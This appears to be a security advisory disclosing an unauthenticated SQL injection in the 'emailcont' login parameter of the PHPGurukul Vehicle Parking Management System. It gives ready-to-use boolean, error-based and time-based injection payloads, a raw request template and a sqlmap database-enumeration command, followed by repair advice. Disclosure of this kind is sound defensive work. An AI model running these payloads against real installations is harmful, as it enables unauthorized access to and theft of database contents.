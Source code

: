 # Vehicle parking Management System in V1.13 SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Vehicle parking Management System

## Vendor Homepage

- https://phpgurukul.com/vehicle-parking-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

Flow Huang

## Vulnerable File

- /vpms/users/login.php

## VERSION(S)

- V1.1.3

## Software Link

- https://phpgurukul.com/wp-content/uploads/2019/07/Vehicle-parking-Management-System-in-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/vpms/users/login.php' file of the 'Vehicle parking Management System' project. The reason for this issue is that attackers inject malicious code from the parameter 'emailcont' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Vehicle parking Management System",I discovered a critical SQL injection vulnerability "/vpms/users/login.php" file. This vulnerability stems from insufficient user input validation of the 'emailcont' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability lonameion:

- 'emailcont‘ parameter

## Payload:

```
Parameter: emailcont (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: emailcont=-4052') OR 6473=6473-- idXB&password=1&login=

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: emailcont=1234567890') OR ROW(9062,1573)>(SELECT COUNT(*),CONCAT(0x7178707171,(SELECT (ELT(9062=9062,1))),0x7170767171,FLOOR(RAND(0)*2))x FROM (SELECT 2536 UNION SELECT 5826 UNION SELECT 2136 UNION SELECT 5267)a GROUP BY x)-- ekgd&password=1&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: emailcont=1234567890') AND (SELECT 8413 FROM (SELECT(SLEEP(5)))eoDH)-- MXmN&password=1&login=
---
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
sql.txt:

```
POST /vms/vpms/users/login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 38
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fts8bkugo602dkngvre7tbqn6t
Host: 192.168.65.5:8080
Origin: http://192.168.65.5:8080
Referer: http://192.168.65.5:8080/vms/vpms/users/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36

emailcont=1234567890*&password=1*&login=
```

```
sqlmap -r sql.txt --batch --risk 3 --level 5 --dbs
```

![image-20250409135424612](/Users/lingtian/Library/Application%20Support/typora-user-images/image-20250409135424612.png)
```

![](https://cdn.jsdelivr.net/gh/lintian31/blog-image/blog-image/20250409140515.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
